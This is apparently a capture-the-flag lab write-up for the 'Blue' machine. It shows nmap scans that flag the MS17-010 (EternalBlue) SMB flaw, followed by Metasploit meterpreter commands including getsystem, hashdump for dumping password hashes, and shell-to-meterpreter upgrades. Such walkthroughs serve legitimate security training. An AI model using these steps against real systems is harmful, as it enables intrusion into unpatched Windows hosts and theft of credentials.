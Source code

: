```yaml
---
title: "blue"

date: "2023-05-17"

author: "MatDef"

  

---
```


# Information Gathering

  

### Nmap
```shell
$ nmap -A <ip>          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-24 12:51 EDT
Nmap scan report for 10.10.244.88
Host is up (0.053s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-05-23T15:36:34
|_Not valid after:  2023-11-22T15:36:34
|_ssl-date: 2023-05-24T16:53:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-05-24T16:53:23+00:00
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 2h14m09s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02b54060a537 (unknown)
| smb2-time: 
|   date: 2023-05-24T16:53:23
|_  start_date: 2023-05-24T15:36:32
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-05-24T11:53:23-05:00
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)



```
-> Windows 7 probably Eternal Blue (its in the name ;))


## Enumeration
```shell
$ nmap --script smb-vuln* <ip>        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-24 12:56 EDT
Nmap scan report for 10.10.244.88
Host is up (0.060s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

```
-> smb-vuln-ms17-010



# Exploitation
Using `msfconsole`
```shell
meterpreter > getsystem
[-] Already running as SYSTEM
```
Already meterpreter shell else upgrade shell with
`sessions -u -1`
Or
```shell
use post/multi/manage/shell_to_meterpreter
show options
set session 1
exploit
```

```shell
meterpreter > getsystem
meterpreter > hashdump
```
-> 3 User: Administrator, Guest, Jon


To upgrade the most recently opened session to Meterpreter using the sessions command:

sessions -u -1

Or run the shell_to_meterpreter module manually:

use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS


# Privilege Escaltion


  
  

---

  

# References
![](./images/20230524122622.png)